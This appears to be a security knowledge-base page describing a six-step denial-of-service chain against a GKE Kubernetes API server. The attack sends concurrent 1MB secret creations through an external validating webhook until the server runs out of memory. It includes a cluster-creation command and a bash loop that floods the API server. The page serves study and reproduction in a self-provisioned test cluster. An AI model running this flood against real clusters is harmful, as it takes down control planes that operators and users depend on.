

# Kubernetes API Server DoS via Concurrent Large Secrets to External Validating Webhook

Multi-stage attack chain demonstrating a denial-of-service on the Kubernetes API Server by exploiting Validating Webhooks with concurrent large resource submissions, leading to memory exhaustion and control plane outage.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/gcloud]]
- [[tools/kubectl]]
- [[tools/nginx]]
- [[tools/curl]]

### Target Environment

- Kubernetes cluster (GKE version 1.17.14-gke.1600 or similar)
- Required services/ports: API Server on 443, webhook endpoint on 80/443
- Network access: VPC access to GKE control plane, public IP for webhook VM

### Initial Access Requirements

- GCP project with permissions to create GKE clusters and GCE VMs
- Bastion VM in the same VPC for kubectl access
- No prior cluster access needed; attack provisions its own test environment

## Detailed Attack Procedures

### Step 1: Create Private GKE Cluster
procedure: [[procedures/Create-Private-GKE-Cluster]]

**Objective**: Provision a private GKE cluster to serve as the target for the DoS attack, ensuring isolated testing environment.

**Instructions**: Use [[commands/gcloud-create-private-gke-cluster]] to create the cluster with private nodes and endpoint.

```bash
gcloud beta container --project "gkek8s-178117" clusters create "sieve-clone-1" --zone "us-central1-c" --no-enable-basic-auth --cluster-version "1.17.14-gke.1600" --release-channel "regular" --machine-type "e2-medium" --image-type "COS_CONTAINERD" --disk-type "pd-standard" --disk-size "60" --metadata disable-legacy-endpoints=true --scopes "https://www.googleapis.com/auth/devstorage.read_only","https://www.googleapis.com/auth/logging.write","https://www.googleapis.com/auth/monitoring","https://www.googleapis.com/auth/servicecontrol","https://www.googleapis.com/auth/service.management.readonly","https://www.googleapis.com/auth/trace.append" --max-pods-per-node "64" --preemptible --num-nodes "1" --no-enable-stackdriver-kubernetes --enable-private-nodes --enable-private-endpoint --enable-ip-alias --network "projects/gkek8s-178117/global/networks/external" --subnetwork "projects/gkek8s-178117/regions/us-central1/subnetworks/external" --default-max-pods-per-node "64" --enable-network-policy --enable-master-authorized-networks --addons HorizontalPodAutoscaling,NodeLocalDNS --enable-autoupgrade --enable-autorepair --max-surge-upgrade 1 --max-unavailable-upgrade 0 --workload-pool "gkek8s-178117.svc.id.goog" --enable-shielded-nodes --security-group "gke-security-groups@lonimbus.com"
```

**Expected Output**: Successful cluster creation message, cluster ready in ~5 minutes.

**Success Indicators**:
- Cluster status: Ready in `gcloud container clusters describe`
- Private endpoint accessible via kubectl from bastion VM

### Step 2: Set Up External Webhook Endpoint with Nginx
procedure: [[procedures/Set-Up-External-Webhook-Endpoint-with-Nginx]]

**Objective**: Deploy an external TLS endpoint to receive and log webhook calls from the API Server, simulating a validating service.

**Instructions**: Provision a GCE VM with public IP and install [[tools/nginx]] configured to proxy /validator to a response endpoint.

**Expected Output**: Nginx listening on 80/443, logs capturing incoming admission reviews.

**Success Indicators**:
- `curl https://<public-ip>/validator` returns JSON {'response': {'allowed': true}}
- Access logs show webhook traffic

### Step 3: Install ValidatingWebhookConfiguration
procedure: [[procedures/Install-ValidatingWebhookConfiguration]]

**Objective**: Configure the cluster to route CREATE/UPDATE operations for secrets through the external webhook.

**Instructions**: Apply YAML using [[commands/kubectl-apply-webhook]] to set up the configuration pointing to the external URL.

**Expected Output**: Webhook configuration applied successfully.

**Success Indicators**:
- `kubectl get validatingwebhookconfigurations` shows the webhook
- Test secret creation triggers webhook call (check nginx logs)

### Step 4: Generate Large Gibberish File
procedure: [[procedures/Generate-Large-Gibberish-File]]

**Objective**: Create a ~1MB file of dummy data to use as payload for large secrets.

**Instructions**: Generate the file using a lorem ipsum tool, then verify with [[commands/ls-list-files]] and [[commands/head-display-file-content]].

```bash
ls -alh
head lorem-1MB
```

**Expected Output**: File size ~990K, first lines show lorem ipsum text.

**Success Indicators**:
- File exists and is approximately 1MB
- Content is gibberish text

### Step 5: Trigger DoS with Concurrent Secret Creations
procedure: [[procedures/Trigger-DoS-with-Concurrent-Secret-Creations]]

**Objective**: Flood the API Server with concurrent large secret creations, each triggering a webhook call and causing resource exhaustion.

**Instructions**: From bastion VM, run [[commands/for-loop-create-concurrent-secrets]] with 100 iterations.

```bash
for i in $(seq 1 100); do k create secret generic test-b$i --from-file=lorem-1MB & done
```

**Expected Output**: Initial successes, then errors like "internal server error" as API Server hangs.

**Success Indicators**:
- Multiple secrets created initially
- Commands hang or fail after ~20-50 iterations

### Step 6: Monitor API Server Unavailability
procedure: [[procedures/Monitor-API-Server-Unavailability]]

**Objective**: Verify the DoS impact by checking API Server responsiveness and logs.

**Instructions**: Use [[commands/curl-k8s-version]] to probe the /version endpoint and check GCP audit logs.

```bash
curl .../version
```

**Expected Output**: Curl hangs indefinitely; logs show internal errors and GKE repair events.

**Success Indicators**:
- API calls timeout or fail
- Control plane outage until GKE reprovisions

## Attack Chain Summary

### Key Achievements

1. Provisioned isolated GKE test environment
2. Configured external webhook to intercept large resource operations
3. Induced API Server crash via concurrent 1MB secret submissions
4. Confirmed DoS with unresponsive control plane and automatic recovery

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]] Endpoint Denial of Service
- [[OS Exhaustion Flood]] OS Exhaustion (Memory)

### MITRE ATT&CK Tactics

- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
